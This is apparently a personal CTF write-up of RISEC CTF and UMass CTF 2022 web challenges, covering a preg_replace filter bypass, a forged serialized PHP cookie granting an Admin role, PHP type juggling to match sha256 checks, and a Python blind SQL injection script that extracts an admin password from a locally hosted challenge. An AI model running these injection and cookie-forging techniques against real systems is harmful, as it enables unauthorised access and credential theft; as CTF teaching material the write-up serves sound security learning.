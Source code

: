 ```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
---
```


# RISEC CTF + UMass CTF 2022

<mark style="color:blue;">`Web Challenge`</mark>

## RISEC CTF&#x20;

### Pretty Horrible Program 1

```
  <?php
  if (isset($_GET['bingus'])) {
    $input = $_GET['bingus'];
    $to_replace = 'bingus';
    $clean_string = preg_replace("/$to_replace/", '', $input);
    echo "<p>Your string is: $clean_string</p>";
    if ($clean_string == $to_replace) {
      echo "<h2 class=\"answer\">Bingus <span style=\"color: green;\">IS</span> your beloved</h2>";
      output_flag();
    } else {
      echo "<h2 class=\"answer\">Bingus <span style=\"color: red;\">IS NOT</span> your beloved</h2>";
    }
  }
  ?>
```

* Notice that $clean\_string genererated by replacing&#x20;
* So that we just input something that after replacing. it's equal to 'bingus'

demo:

![](<../../.gitbook/assets/image (3) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (8) (1) (1).png>)



### Pretty Horrible Program 2

```
class User
  {
    public $role = 'Admin'; 	
}

$default_user = new User;
$_COOKIE = serialize($default_user);
setcookie(
    'user',
    serialize($default_user)
  );
$a=unserialize($_COOKIE);
echo "$_COOKIE"
```

### Pretty Horrible Program 3

```
<?php
  if (isset($_GET['input1']) and isset($_GET['input2'])) {
    if ($_GET['input1'] == $_GET['input2']) {
      print '<h3 class="error">Nice try, but it won\'t be that easy ;)</h3>';
    } else if (hash("sha256", $_GET['input1']) === hash("sha256", $_GET['input2'])) {
      output_flag();
    } else {
      print '<h3 class="error">Your inputs don\'t match</h3>';
    }
  }
  ?>
  <p>See if you can make the sha256 hashes match</p>
  <br />
  <a href="/php3/index.php?source=true">Source Code</a>
  <form method="get">
    <input type="text" required name="input1" placeholder="Input 1" />
    <p>Hash: <?php if (isset($_GET['input1'])) print hash("sha256", $_GET['input1']) ?></p>
    <input type="text" required name="input2" placeholder="Input 2" />
    <p>Hash: <?php if (isset($_GET['input2'])) print hash("sha256", $_GET['input2']) ?></p>
    <input type="submit" />
  </form>
</body>

</html>
<?php
```

Workflow:

* At first, i just try to find around the key work "SHA256 collision" but we got [<mark style="color:blue;">this one</mark> ](https://crypto.stackexchange.com/questions/47809/why-havent-any-sha-256-collisions-been-found-yet)<mark style="color:blue;">,</mark> it takes about ≈3.6×1013 years to find, so that it's not a practical option.
* After that i focused on '==' in php. Searching around and i got [<mark style="color:blue;">this</mark> ](https://www.invicti.com/blog/web-security/php-type-juggling-vulnerabilities/)and [<mark style="color:blue;">this</mark>](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)
* Now you just put \[] in input and get flag.

## UMass CTF

## venting

This challenge ended and the website was turned off. So i build it in docker from [<mark style="color:blue;">here</mark>](https://github.com/UMassCybersecurity/UMassCTF-2022-challenges)

* when you connectn try to see history in burpsuite, you can get the link redirect to the login page
* Now read the hint with 'admin' in user and  password does't have fillter so that mean that may be SQLI. Exactly. that's is blind SQLI
* I solve this challenge by burpsuite as same as [<mark style="color:blue;">this lab</mark>](https://portswigger.net/web-security/sql-injection/blind)

otherway, try to bruteforce by python request:

```
import requests, string

url = "http://localhost:49153/fff5bf676ba8796f0c51033403b35311/login"
s = requests.session()

passwordRetrieve = ""
# ' or (select 'a' from users where username='admin' and length(Password)>36)='a

def solve():
    global passwordRetrieve
    index = 0
    while True:
        for char in string.printable:
            usernamefield = "\\"
            passwordfield = f"' or (select 'a' from users where username='admin' and substr(Password,{index},1)='{char}')='a"
            postParam = {'user': usernamefield, 'pass': passwordfield}
            response = s.post(url, data=postParam).text
            if "Invalid" not in response:
                passwordRetrieve += char
                index += 1
                print(passwordRetrieve)
                break
        if (index == 37):
            break
SELECT * from users WHERE username='admin\' AND Password = ''or 'True'
solve()
```





Thanks for reading. Have a good day :heart: !



Contact:

* <img src="../../.gitbook/assets/image (6) (1) (1) (1).png" alt="" data-size="line">[<mark style="color:blue;">facebook</mark> ](https://www.facebook.com/rong.truong.372)

